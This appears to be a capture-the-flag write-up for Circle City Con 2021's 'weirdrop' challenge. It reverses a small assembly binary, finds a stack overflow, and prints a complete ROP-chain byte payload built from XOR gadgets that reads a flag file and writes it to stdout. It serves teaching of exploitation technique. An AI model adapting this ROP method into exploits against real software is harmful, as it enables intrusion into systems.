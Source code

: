 ## weirdrop (Circle City Con 2021)

I didn't participate in the CTF, but I noticed that there is no writeup for this
challenge, so I decided to address that. :D

## Exploitable Service

We get the exploitable service binary.

```bash
[joey@gibson] file weird-rop
weird-rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=2876651ce7257d4153ee90b05f0b1a2b29f25700, not stripped
```
Neato! We got a 64-bit ELF. The binary is statically compiled and not
stripped, making reversing and exploitation much easier for us.

## Reversing

Turns out there isn't much to reverse! This is a very lightweight binary,
written in assembly. Here's the program entry:

```asm
┌ 21: entry0 ();
│           0x00401154      e887ffffff     call loc.vuln
│           0x00401159      48c7c03c0000.  mov rax, 0x3c
│           0x00401160      48c7c7000000.  mov rdi, 0
└           0x00401167      0f05           syscall
```
So far so good - the program calls `vuln()` then calls the `exit` system call
with the exit code `0`. If you are looking for an easy reference for the ABI
[bookmark
this](https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md).

Let's take a look at `vuln()`:
```asm
│           0x004010e0      55             push rbp
│           0x004010e1      4889e5         mov rbp, rsp
│           0x004010e4      4883ec10       sub rsp, 0x10
│           0x004010e8      48c7c0020000.  mov rax, 2
│           0x004010ef      488d3c250020.  lea rdi, loc.flag ; 0x402000 ; "/flag.txt"
│           0x004010f7      48c7c6020000.  mov rsi, 2
│           0x004010fe      48c7c2000000.  mov rdx, 0
│           0x00401105      0f05           syscall
```
So far we got `open("/flag.txt", O_RDWR)`. Note that this binary isn't actually
using libc, I'm just using libc functions to make the reversed code easier to
look at. You can find the definitions of flags like `O_RDWR` in `/usr/include`
(e.g. `/usr/include/asm-generic/fcntl.h`).

```asm
│           0x00401107      4883c030       add rax, 0x30
│           0x0040110b      880424         mov byte [rsp], al
│           0x0040110e      c64424010a     mov byte [var_1h], 0xa
│           0x00401113      48c7c0010000.  mov rax, 1
│           0x0040111a      48c7c7010000.  mov rdi, 1
│           0x00401121      4889e6         mov rsi, rsp
│           0x00401124      48c7c2020000.  mov rdx, 2
│           0x0040112b      0f05           syscall
```

At this point the `rax` register holds the file descriptor returned by the
`open` syscall. The program adds `0x30` to the file descriptor, which is a
low-tech way of turning a digit into its ASCII representation (`0x30`
represents zero and so on). We store this value on the stack and append `\n` to
it. The program then outputs this number to the standard output:
`write(STDOUT_FILENO, stack_pointer, 2);`

```asm
│           0x0040112d      48c7c0000000.  mov rax, 0
│           0x00401134      48c7c7000000.  mov rdi, 0
│           0x0040113b      4889e6         mov rsi, rsp
│           0x0040113e      48c7c2c80000.  mov rdx, 0xc8
│           0x00401145      0f05           syscall
│           0x00401147      48c7c7000000.  mov rdi, 0
│           0x0040114e      4883c410       add rsp, 0x10
│           0x00401152      5d             pop rbp
└           0x00401153      c3             ret
```
Reverses to this:
`read(STDOUT_FILENO, stack_ptr, 200);`

The final chunk of this function reads `0xc8` bytes into the stack, nulls out
the `rdi` register, does some cleanup, and returns. Obviously this is the
vulnerability - we can overwrite the return address on the stack and gain
control of the program counter.

## Yucky Gadgets

Okay so.. what's the problem? Just hunt for some useful gadgets and get that
easy 300 points right? Let's see here...

```asm
  0x00401000                 5e  pop rsi
  0x00401001                 c3  ret

  0x00401002     48c7c000000000  mov rax, 0
  0x00401009                 c3  ret
```

Cool cool.

```asm
  0x0040100a     48c7c001000000  mov rax, 1
  0x00401011                 c3  ret

  0x004010db               0f05  syscall
  0x004010dd                 c3  ret
```

Nice!

```asm
  0x0040109b     4881f7cd030000  xor rdi, 0x3cd
  0x004010a2                 c3  ret

  0x004010d3     4881f79a020000  xor rdi, 0x29a
  0x004010da                 c3  ret
```
Uhm...

```asm
  0x004010cb     4881f7a3010000  xor rdi, 0x1a3
  0x004010d2                 c3  ret

  0x004010c3     4881f798010000  xor rdi, 0x198
  0x004010ca                 c3  ret
```
... okay?

26 `xor rdi` gadgets?! Gross.

## Exploitation Plan

The exploitation plan I chose was to take advantage of the open file
descriptor, telegraphed to us by the service, read the contents of the flag
file, and simply write it to the standard output.

Most gadgets are already obvious - we can load `1` and `0` into `rax`
for the `write` and `read` system calls respectively. We even have a gadget to
load the standard output file descriptor (`1`) into `rdi`.

However we still need to put the flag file descriptor in `rdi` and there is no
clear gadget candidate for this. We just got a bunch of awkward XOR gadgets and
that means it's time some XOR math!

I don't know about you, but I'm pretty lazy, so I just wrote a Python
script to bruteforce the needed XOR gadgets. (Note that since the `rdi`
register is nulled out, the first XOR gadget will just put the immediate value
into the register). The script permutes over every possible combination of XOR
gadgets and breaks when the value is found. `permute.py` is the script I wrote
for this task. Take a look - nothing too fancy there.

The flag file descriptor is always `5`, so we can just run `permute.py` once to
figure out the gadgets we need.

_If you are confused by the file descriptor being `5` and not `3` you are
not alone - it's weird. This is likely due to a little bit more code on the
server side that we don't get to see. (I think the challenge would have been
more interesting if the file descriptor was somewhat random. That way, we'd have
to dynamically determine which gadgets to use)._

```
[joey@gibson]$ ./permute.py 5
0x56 0x53
```
Great - so the XOR gadgets that have these two operands is what we need. We
now have all of the key elements of our exploit. This is the ROP chain I
came up with:

```C
#define EXPLOIT_LEN     0xc8

uint8_t exploit[EXPLOIT_LEN] = {
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // filler!
    0x7c, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x53
    0x1a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x56
    0xde, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // pop rdx
    0x19, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // length value
    0x02, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x0
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x0a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x1
    0x12, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdi, 0x1
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
//  ...
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};
```

First 24 bytes are the filler for the stack - recall that the function subtracts
`0x10` from the stack pointer and pops a register. The first two gadets are the XOR
gadgets we've determined with `permute.py`. The next gadget pops `0x19` into `rdx`,
which is the length of our read. Finally, we shove the `read` syscall number into
`rax` and call it. Then we simply use the gadgets to load the `write` syscall number
and place stdout file decriptor (`1`) as its first argument. The other two arguments
in registers `rsi` and `rdx` remain the same throughout the exploit. That's it!

```bash
[joey@gibson]$ ./exploit
CCC{math_is_hard_1234897}
```
